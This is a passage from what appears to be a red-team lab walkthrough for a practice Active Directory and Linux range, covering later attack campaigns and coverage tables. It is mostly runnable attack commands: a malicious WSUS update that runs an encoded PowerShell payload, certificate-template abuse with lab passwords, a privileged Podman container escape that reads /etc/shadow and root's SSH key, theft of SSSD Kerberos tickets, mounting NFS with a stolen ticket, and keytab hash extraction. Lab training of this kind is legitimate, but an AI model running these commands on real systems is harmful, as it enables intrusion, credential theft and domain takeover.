**Alternative — WSUS Abuse (WT#030):**
```powershell
# If WSUS is accessible from mbr02:
SharpWSUS.exe create /payload:"powershell -enc <encoded>" /args:"" /name:"CADRE-Updates"
SharpWSUS.exe approve /updateid:<id> /computername:192.168.77.0/24
```

**Alternative — VSC Enrollment (WT#049):**
```bash
certipy-ad req -ca cadre-CA -template CADRE-VSC \
  -u "analyst_osint@range.local" -p '0S1NT_An@lyst!' -dc-ip 192.168.77.12
```

### Campaign C — Coverage Summary

| Phase | WT# | Alternative Paths |
|:-----:|:---:|:-----------------:|
| 1 — Kerberoast | 002 | 033 (cross-forest) |
| 2 — Delegation | 005, 006 | — |
| 3 — dMSA | 026 | — |
| 4 — SCCM | 034-039 | 030, 049 |
| **Total** | **10** | **3** |

---

## Campaign D — Linux Pivot

**Start:** Root-level access on linux01 (192.168.77.40). Gained via Podman container escape (WT#048) or credential abuse (WT#045/046 after MSSQL lateral recon WT#044).

Two ways to get root on linux01:

**Path A — MSSQL-on-Linux Lateral Reconnaissance (WT#044):**
```bash
# From mbr01 MSSQL, hop via linked server to LINUX01 (SELECT queries only)
impacket-mssqlclient child.cadre.local/analyst_t1:'T13r_An@lyst!'@192.168.77.22 \
  -windows-auth -query "SELECT * FROM OPENQUERY(\"LINUX01\", 'SELECT name FROM sys.databases')"
# Returns: list of linux01 databases

# xp_cmdshell unavailable on SQL Linux — pivot to credential abuse (WT#045/046) for OS access
```

**Path B — Podman Container Escape (WT#048):**
The `cadre-monitor` container runs with `--privileged --pid=host`. From any user:

```bash
# Escape the container to host root
sudo podman exec cadre-monitor unshare -r id
# Returns: uid=0(root) gid=0(root)

# Read host filesystem
sudo podman exec cadre-monitor cat /proc/1/root/etc/shadow 2>/dev/null | head -5

# Copy SSH keys
sudo podman exec cadre-monitor cat /proc/1/root/root/.ssh/id_rsa 2>/dev/null
```

**What you earn:** Root on linux01.
**WT# covered:** 044, 048.

### Phase 2 — SSSD Ticket Extraction (WT#045)

Linux01 is domain-joined to cadre.local. The SSSD cache stores Kerberos tickets of authenticating users.

```bash
# Step 1: Find the SSSD database
sudo ls -la /var/lib/sss/db/
# Look for: cache_cadre.local.ldb

# Step 2: Dump the cache database
sudo cat /var/lib/sss/db/cache_cadre.local.ldb > /tmp/sssd_dump.ldb

# Step 3: Check for cached Kerberos tickets
ls -la /tmp/krb5cc*
klist -c /tmp/krb5cc_* 2>/dev/null

# Step 4: Extract credentials using SSSECRETS or manual parsing
# The cache may contain plaintext-equivalent credentials for users
# who have authenticated to this machine
```

**What you earn:** Kerberos tickets or cached credentials of domain users who authenticated to linux01.
**WT# covered:** 045.

### Phase 3 — NFS Kerberos Mount Abuse (WT#047)

The NFS export `/exports/secure-share` uses `sec=krb5p` — Kerberos authentication required. With a stolen ticket, mount and access the share.

```bash
# Step 1: Mount the NFS export with the stolen Kerberos ticket
export KRB5CCNAME=/tmp/krb5cc_stolen
sudo mkdir -p /mnt/cadre-nfs
sudo mount -t nfs -o sec=krb5p localhost:/exports/secure-share /mnt/cadre-nfs

# Step 2: Enumerate the share
ls -la /mnt/cadre-nfs
find /mnt/cadre-nfs -type f -exec cat {} \; 2>/dev/null
```

**What you earn:** Access to kerberized NFS export — data exfiltration, credential discovery.
**WT# covered:** 047.

### Phase 4 — MSSQL Keytab Extraction (WT#046)

MSSQL on linux01 uses Kerberos authentication via `/var/opt/mssql/secrets/mssql.keytab`. Extract the keytab to obtain domain credentials.

```bash
# Step 1: Locate the keytab file
sudo ls -la /var/opt/mssql/secrets/mssql.keytab
# Expected: exists, mode 640

# Step 2: Extract keys from the keytab
sudo klist -ket /var/opt/mssql/secrets/mssql.keytab
# Displays available keys (NTHASH, AES128, AES256)

# Step 3: Extract the NTHASH for NTLM authentication
# Use keytabextract.py or manual parsing
python3 -c "
import subprocess
import re
output = subprocess.check_output(['klist', '-ket', '/var/opt/mssql/secrets/mssql.keytab']).decode()
for line in output.split('\n'):
    if 'NTHASH' in line or 'AES' in line:
        print(line.strip())
"
```

**What you earn:** `MSSQLSvc/linux01.cadre.local` service principal credentials — NTHASH or AES keys for domain authentication.
**WT# covered:** 046.

### Campaign D — Coverage Summary

| Phase | WT# | Alternative Paths |
|:-----:|:---:|:-----------------:|
| 1 — Entry | 044, 048 | — |
| 2 — SSSD | 045 | — |
| 3 — NFS | 047 | — |
| 4 — Keytab | 046 | — |
| **Total** | **5** | **0** |

---

## Master Coverage Summary

| Campaign | Start | End | Phases | Primary | Alternative | Total WT# |
|:---------|:------|:----|:------:|:-------:|:-----------:|:---------:|
| **A — From the Network** | Kali, zero creds | 3 domain krbtgt | 8 | 13 | 12 | **25** |
| **B — Shadow in the Root** | cadre.local low-priv | Full persistence | 5 | 7 | 6 | **13** |
| **C — From the Edge** | range.local access | SCCM + external DA | 4 | 10 | 3 | **13** |
| **D — Linux Pivot** | linux01 root | Domain credentials | 4 | 5 | 0 | **5** |
| **Campaign total** | | | **21** | **35** | **21** | **56** |
| **Total lab attacks** | **60** | WT#002-062 (numbering starts at 002) | | | | |
